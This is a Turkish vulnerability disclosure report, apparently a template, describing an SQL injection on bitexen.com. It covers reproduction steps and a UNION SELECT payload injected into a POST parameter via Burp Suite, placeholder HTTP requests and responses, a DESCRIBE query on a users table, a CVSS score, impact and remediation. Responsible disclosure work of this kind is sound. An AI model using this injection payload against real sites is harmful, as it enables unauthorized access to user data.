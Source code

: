 # SQL Injection - bitexen.com

## Araştırmacı bilgileri

Merhaba, adım Zeynep. Bana zeynep@example.com adresinden ulaşabilirsiniz. HackerOne kullanıcı adım "zeynep".

## Bulgu Tanımı ve Özet

Web uygulaması üzerinden giden isteği Burp Suite ile değiştirerek veritabanında SQL komutları çalıştırabildim. Veritabanındaki tabloların şemalarını kontrol ettim ama hassas veri bulunabileceği düşüncesiyle verilere erişmedim. Tablo yapılarında kullanıcı maili ve telefonu gibi alanlar vardı.

## Etkilenen URL / Uygulama

- Domain bitexen.com

## Risk Kategorisi

- Risk: Kritik
- Risk sebebi: Hassas kullanıcı bilgilerinin (kimlik verisi, adres, telefon) açığa çıkması
- CVSS v3 skoru: 9.8 CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Tekrarlama Adımları / PoC

- Bitexen hesabına giriş yapılıp kullanıcı bilgileri değiştirilir ve 'Kaydet' butonuna basılır.
- İstek Burp veya diğer proxy araçlarıyla durdurulur.
- Giden POST verisindeki `username=example` içine `' UNION SELECT sum(columnname ) from tablename --` yerleştirilir.
- İsteğin son hali `username=example' UNION SELECT sum(columnname ) from tablename --` olacak şekilde gönderilir.

- Orijinal İstek

        POST https://bitexen.com/uygulama/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data

- Orijinal Cevap

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        OK

- Değiştirilen İstek

        POST https://bitexen.com/uygulama/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data' UNION SELECT sum(columnname ) from tablename --

- Değiştirilen Cevap

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        5

- Aynı istek Burp Repeater ile bu sefer `DESCRIBE bitexen_db.users` komutu girilerek gönderilir. Veritabanına ve tablolara erişim yapılabildiği görülmektedir.

        +-------+--------------+------+-----+---------+-------+
        | Field | Type         | Null | Key | Default | Extra |
        +-------+--------------+------+-----+---------+-------+
        | id    | int(11)      | YES  | MUL | NULL    |       |
        | Name  | varchar(100) | YES  | MUL | NULL    |       |
        +-------+--------------+------+-----+---------+-------+
        2 rows in set (0.05 sec)

Ekran görüntüleri:

- Görüntü 1
- Görüntü 2

## Etki

Tüm kullanıcıların e-posta adreslerine ve telefon numaralarına erişilebiliyor. Parolalar bulunmadığı için hesap erişimi mümkün değil ancak elde edilebilecek veriler kritik önemde. Ayrıca saldırgan tarafından veriler düzenlenebilir veya silinebilir.

## Çözüm Önerisi

Web uygulamasından yapılan istekler SQL komutuna dönüştürülmeden önce temizlenmeli ve tehlikeli istekler reddedilmeli. Ayrıca erişim sağlayan SQL servisinin yetkileri limitlenmeli.

Kaynaklar:

- <https://www.w3schools.com/sql/sql_injection.asp>
- <https://portswigger.net/web-security/sql-injection>
- <https://owasp.org/www-community/attacks/SQL_Injection>
- <https://www.acunetix.com/websitesecurity/sql-injection/>
